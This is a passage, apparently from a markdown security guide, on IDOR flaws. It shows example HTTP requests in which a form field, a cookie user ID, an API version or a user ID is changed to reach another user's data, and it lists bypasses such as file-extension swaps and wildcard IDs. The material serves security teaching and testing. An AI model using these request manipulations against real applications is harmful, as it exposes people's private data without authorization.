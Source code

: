    After manipulation

   ```
   POST /profile/edit HTTP/1.0
   HOST: example.com
   ...
   
   username=jack432&firstname=john&lastname=doe
   ```

5. **Cookie-based**

   Suppose an application uses cookies to identify and authorize users to access specific data, here attackers try to change value of cookie to access unauthorized data.

   Example:

   ```
   GET /profile HTTP/1.0
   Cookie: user_id=1234
   ```

   After manipulation

   ```
   GET /profile HTTP/1.0
   Cookie: user_id=1235
   ```

6. **API (Application Programming Interface)**

   API can be vulnerable to IDOR if it leaks sensitive data.

   Example:

   ``` 
   GET /api/v1/messages HTTP/1.0 --> GET /api/v2/messages HTTP/1.0
   GET /api/v1/users/1 HTTP/1.0 --> GET /api/v1/users/2 HTTP/1.0
   ```

## Some IDOR Bypasses

1. **Change file type**

   ```shell
   GET /user_data/1234 ---> 401
   GET /user_data/1234.json ---> 200
   GET /user_data/1234.xml ---> 200
   GET /user_data/1234.config ---> 200
   GET /user_data/1234.txt ---> 200
   ```

2. **Send wildcard (`*`)**

   ```
   GET /api/v1/users/user_id ---> GET /api/users/* HTTP/1.1
   ```

3. **Change ID to username**
